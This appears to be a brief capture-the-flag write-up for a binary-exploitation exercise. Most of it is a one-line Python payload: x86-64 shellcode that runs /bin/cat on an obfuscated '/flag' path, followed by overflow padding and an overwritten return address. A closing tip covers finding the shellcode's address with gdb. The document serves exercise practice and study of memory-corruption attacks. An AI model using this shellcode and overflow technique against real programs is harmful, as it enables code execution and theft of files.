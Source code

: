 This is the payload that i used

    python -c 'import time, sys; sys.stdout.buffer.write(b"\x6a\x01\xfe\x0c\x24\x48\xb8\x2f\x62\x69\x6e\x2f\x63\x61\x74\x50\x48\x89\xe7\x48\xb8\x01\x01\x01\x01\x01\x01\x01\x01\x50\x48\xb8\x01\x2e\x67\x6d\x60\x66\x01\x01\x48\x31\x04\x24\x48\xb8\x2f\x62\x69\x6e\x2f\x63\x61\x74\x50\x31\xf6\x56\x6a\x11\x5e\x48\x01\xe6\x56\x6a\x10\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05"); sys.stdout.flush(); time.sleep(2); sys.stdout.buffer.write(b"A"*56 + b"\x00\x00\x87\x15")' | ./your_program

For the Hard one use gdb to find out the mapping of the shell code using `info proc mappings`.
